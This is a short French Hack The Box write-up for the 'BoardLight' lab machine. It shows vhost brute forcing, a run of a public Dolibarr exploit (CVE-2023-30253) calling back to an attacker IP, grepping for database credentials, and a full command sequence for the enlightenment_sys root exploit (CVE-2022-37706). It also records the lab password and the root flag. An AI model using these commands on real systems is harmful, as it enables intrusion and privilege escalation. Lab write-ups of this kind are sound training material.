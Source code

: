 ```yaml
---
title: HTB Writeup: BoardLight
author: MiiLLIm
date: 01-06-2024
categories: [HTB]
tags: [CTF,HTB]
---
```



# HTB Writeup: BoardLight

[PWNED:Date](https://www.hackthebox.com/achievement/machine/1966580/603)

Brute force les VHOST 

```bash
gobuster vhost -u http://crm.board.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --append-domain
```

[`CVE-2023-30253`](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/tree/main)

```bash
python3 exploit.py http://crm.board.htb login password 10.10.14.138 1234
```

Rechercher une chaîne de caractère dans un répertoire 

```bash
grep -arin 'DB_USER\|DB_PASSWORD' |awk -F':' '{print $1}' | sort | uniq -c
```

Mot de passe de Larissa trouvé : FLAG serverfun2$2023!!

## Root Flag

Trouver les fichier avec une  SUID Permission 

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

 [`CVE-2022-37706`](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) 

```bash
mkdir /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"
echo "/bin/bash" > /tmp/exploit
chmod a+x /tmp/exploit
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net

```

FLAG 

```bash
root@boardlight:/home/larissa# cat /root/root.txt
8d823a6c299dff3c34c362d20335f028
```
